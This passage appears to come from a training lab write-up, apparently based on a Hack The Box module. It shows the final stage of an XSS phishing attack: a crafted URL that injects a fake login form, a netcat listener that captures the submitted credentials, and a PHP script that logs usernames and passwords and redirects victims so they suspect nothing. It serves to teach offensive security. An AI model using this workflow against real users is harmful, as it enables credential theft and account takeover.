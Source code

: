 As we can see, this removes the remaining bit of original HTML code, and our payload should be ready. The page now looks like it legitimately requires a login:

![image](https://github.com/RipperGh/BugHunting-D/assets/165308866/ba8fb7ac-45f6-43a8-9b23-6d109e4461f5)

We can now copy the final URL that should include the entire payload, and we can send it to our victims and attempt to trick them into using the fake login form. You can try visiting the URL to ensure that it will display the login form as intended. Also try logging into the above login form and see what happens.

## Credential Stealing
Finally, we come to the part where we steal the login credentials when the victim attempts to log in on our injected login form. If you tried to log into the injected login form, you would probably get the error This site can’t be reached. This is because, as mentioned earlier, our HTML form is designed to send the login request to our IP, which should be listening for a connection. If we are not listening for a connection, we will get a site can’t be reached error.

So, let us start a simple netcat server and see what kind of request we get when someone attempts to log in through the form. To do so, we can start listening on port 80 in our Pwnbox, as follows:
```
GhostRipper@htb[/htb]$ sudo nc -lvnp 80
listening on [any] 80 ...
```
Now, let's attempt to login with the credentials test:test, and check the netcat output we get (don't forget to replace OUR_IP in the XSS payload with your actual IP):
```
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
```

As we can see, we can capture the credentials in the HTTP request URL (/?username=test&password=test). If any victim attempts to log in with the form, we will get their credentials.

However, as we are only listening with a netcat listener, it will not handle the HTTP request correctly, and the victim would get an Unable to connect error, which may raise some suspicions. So, we can use a basic PHP script that logs the credentials from the HTTP request and then returns the victim to the original page without any injections. In this case, the victim may think that they successfully logged in and will use the Image Viewer as intended.

The following PHP script should do what we need, and we will write it to a file on our VM that we'll call index.php and place it in /tmp/tmpserver/ (don't forget to replace SERVER_IP with the ip from our exercise):
```
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```
